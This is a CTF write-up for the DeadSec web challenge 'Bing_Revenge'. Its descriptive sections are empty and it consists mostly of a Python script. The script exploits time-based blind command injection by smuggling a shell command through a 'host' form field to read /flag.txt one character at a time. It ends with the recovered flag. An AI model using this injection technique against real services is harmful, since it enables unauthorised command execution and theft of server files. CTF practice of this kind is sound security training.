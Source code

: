 # Web/Bing_Revenge

## Description

## Challenge Overview

## Exploit

```py
import requests
from string import printable
from time import time
from tqdm import tqdm

baseURL = "https://7c613d88f8c24c61ed3939b2.deadsec.quest"
# baseURL = "http://localhost:5000"

def flag(host):
    url = baseURL + "/flag"
    sendData = {"host": host}
    r = requests.post(url, data=sendData)
    res = r.text

    res = res.split("<pre>")[1]
    res = res.split("</pre>")[0]
    return res

correctFlag = "DEAD{"
wait = 10
for i in range(len(correctFlag)+1, 60+1):
    for letter in tqdm("}" + printable):
        exploit = f'; if [ $(cat /flag.txt | cut -c {i}) = "{letter}" ]; then sleep {wait}; fi; '
        start = time()
        flag(exploit)
        end = time()
        time_taken = end - start
        if (time_taken > wait):
            correctFlag += str(letter)
            break
    print(correctFlag)

print(correctFlag)

```

The script might give a `Connection Error` sometimes because of the server sometimes so you will then have to replace the `correctFlag` with the portion of the flag you have found out till now.

This gives us our flag `DEAD{f93efeba-0d78-4130-9114-783f2cd337e3}`.
